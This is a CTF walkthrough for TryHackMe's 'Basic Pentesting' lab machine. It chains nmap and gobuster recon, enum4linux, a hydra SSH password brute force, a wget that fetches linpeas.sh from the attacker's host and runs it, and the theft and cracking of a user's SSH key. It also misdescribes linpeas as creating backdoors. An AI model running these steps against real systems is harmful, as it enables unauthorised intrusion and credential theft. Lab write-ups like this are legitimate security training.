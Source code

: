 # Basic Pentesting - TryHackMe CTF Walkthrough
---

| **Description:**  | _This is a machine that allows you to practise web app hacking and privilege escalation._ |
| ------------- | ------------- |
| **Level:**  | _Easy_   |
| **Approx Duration:**  | _45 minutes_  |
| **Author:**  | _https://tryhackme.com/p/ashu_  |
| **Path:**  | _Offensive Penetration Testing_  |
| **Type:**  | _Free Room_  |

---

https://tryhackme.com/room/basicpentestingjt

Pre-requisite: Boot up the target machine attached to this room and also boot up kali linux and create a tunnel connection to the target machine via openvpn.

---

## Recon

First and foremost we need gather as much information as possible about the target machine, so ideally our first step of engagement would be to do an enumeration.

I have used nmap to scan open ports on the machine and tried to find what services are running on those ports using the basic nmap scan.

```
nmap target_ip -sV
```

![nmap](img/nmap.png)

The scan has revealed that the machine has 6 open ports and their corresponding service, now lets take a close look at each port and understand what type of services they run.

We have also found that the machine is hosted by linux operating system.

The port 80 run a apache httpd 2.4.41 service, which is a webserver, we can visit the webserver on the browser by navigating to the `http:\\target-ip\`. 

![webserver](img/webserver.png)

We are not able to gain any useful information directly from the webserver, as next step in our enumeration we will use a tool called `gobuster` for directory enumeration.

Simple usage of gobuster in directory mode:

```
gobuster dir -u target-ip -w /path-to-wordlist
```

For this directory brute force we need a wordlist, I am using `common.txt` from SecLists. If you do not have it installed already, install the entrire SecList or just get the common.txt from seclist github page.

```
apt-get install seclists
```

![gobuster](img/gobuster.png)

Gobuster has found few common directories on the server, most of them are forbidden, but we can see a directory which has status code 301 which means its been moved.

Let's try and navigate to the directory using browser.

```
http:\\10.10.101.75\development
```

![development](img/development.png)

from the development directory we can see that there 2 text files and comparing the context of the file and the nmap scan result we got from earlier. We can understand that apache server and SMB has been set up and might be worth looking into it.

![dev-txt](img/dev-txt.png)

![j-txt](img/j-txt.png)

We need to find the username and password using the hints from above text files.

Let's try to enumerate smb using `enum4linux`

```
enum4linux -a target-ip
```

This has enumerated the smb and found valid usernames.

![username](img/username.png)

Now we know what j and k means from the txt files.

With the username obtained, we can use hydra to bruteforce the password using a wordlist from secLists.

```
hyrda -l jan -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/darkweb2017_top-10000.txt target-ip ssh 
```

![hydra](img/hydra.png)

With the username and password we got, try to login into ssh with the credentials.

```
ssh jan@target-ip
```

Enter password when prompted.

Now that we are logged in, need to create a reverse shell. Linpeas is a tool that can be uploaded to machine that creates backdoors.

On kali linux, execute the following commands.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh 
python3 -m http.server 80
```

On the target machine, upload the linpeas tool.

```
wget http://10.17.17.81/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

![linpeas](img/linpeas.png)

Linpeas has enumerated more files and folders apart from previously found files.

I have located id_rsa file in `kay` user profile, but the issue is we do not know the password of kay but we can use this ssh key to authenticate as the user without username and password.

![id_rsa](img/id_rsa.png)

Copy the ssh key to your kali machine and save it.

convert ssh into john hash

```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

unzip rockyou.txt

Kali comes with rockyou.txt.gz (compressed), so follow these steps:

```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Run john command to crack the hash.

```
sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked password of the user `kay`.

![kay_password](img/kay_password.png)

With this password we can login as kay.

![kay_login](img/kay_login.png)

Use the retrieved password whem prompted.

![kay](img/kay.png)

Successfully logged in as kay.

Look around the files saved under this profile, find the interesting file and cat out the file.

![final-flag](img/Final-flag.png)

This task completes the challenge. 
---